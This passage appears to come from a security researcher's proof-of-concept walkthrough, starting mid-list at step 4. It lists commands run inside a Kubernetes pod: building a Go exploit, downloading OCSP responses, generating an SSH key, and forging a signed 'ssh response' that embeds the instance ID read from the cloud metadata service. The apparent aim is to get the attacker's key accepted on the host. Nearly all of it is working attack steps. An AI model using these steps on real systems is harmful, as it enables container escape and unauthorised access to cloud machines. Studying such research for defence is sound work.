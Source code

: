 4.  Copy the 7 files in the container

    ```
    kubectl cp . ubuntu-node:/
    ```

5.  Connect to the container

    ```
    kubectl exec -ti ubuntu-node -- /bin/bash
    ```

    The next commands are all run in the pod

6.  Install the needed softwares

    ```
    apt update && apt install -y openssh-client curl openssl libpcap-dev golang
    ```

7.  Build the Golang POC

    ```
    go build .
    ```

8.  Download the OCSP responses, concatenate the signer cert

    ```
    downloadocsp() {
        fingerprint=$(openssl x509 -noout -fingerprint -sha1 -inform pem -in "${1}" | /bin/sed -n 's/SHA1 Fingerprint[[:space:]]*=[[:space:]]*\(.*\)/\1/p' | tr -d ':')
        ocsp_url="$(openssl x509 -noout -ocsp_uri -in "${1}")"
        openssl ocsp -no_nonce -issuer "${2}" -cert "${1}" -url "$ocsp_url" -respout "${3}/$fingerprint-raw"
        base64 -w0 "${3}/$fingerprint-raw" > "${3}/$fingerprint"
        rm -f "${3}/$fingerprint-raw"
    }
    mkdir ocsp
    downloadocsp cert0.pem cert1.pem ocsp
    downloadocsp cert1.pem cert2.pem ocsp
    cat cert0.pem cert1.pem > signer.pem
    ```

9.  Generate an SSH key, this is the key we will use to connect with

    ```
    ssh-keygen -t ed25519 -f /root/.ssh/id_ed25519 -N ""
    ```

10. Prepare the API "ssh response"

    ```
    cat > sshkeys-unsigned <<EOF
    #Timestamp=2147483647
    #Instance=$(curl http://169.254.169.254/latest/meta-data/instance-id/ -s)
    #Caller=wedontcare
    #Request=wedontcare
    EOF
    cat /root/.ssh/id_ed25519.pub >> sshkeys-unsigned
    openssl dgst -sha256 -sigopt rsa_padding_mode:pss -sigopt rsa_pss_saltlen:32 -sign privkey.pem sshkeys-unsigned | base64 -w0 > sshkeys-signature
    cat sshkeys-unsigned sshkeys-signature > sshkeys
    echo "" >> sshkeys
    ```
